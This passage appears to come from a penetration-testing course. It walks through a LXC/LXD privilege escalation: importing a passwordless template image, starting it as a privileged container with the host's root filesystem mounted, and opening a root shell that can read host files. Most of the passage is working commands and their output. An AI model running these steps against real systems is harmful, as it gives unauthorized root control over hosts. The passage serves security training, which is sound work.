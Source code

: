 From here on, there are now several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
```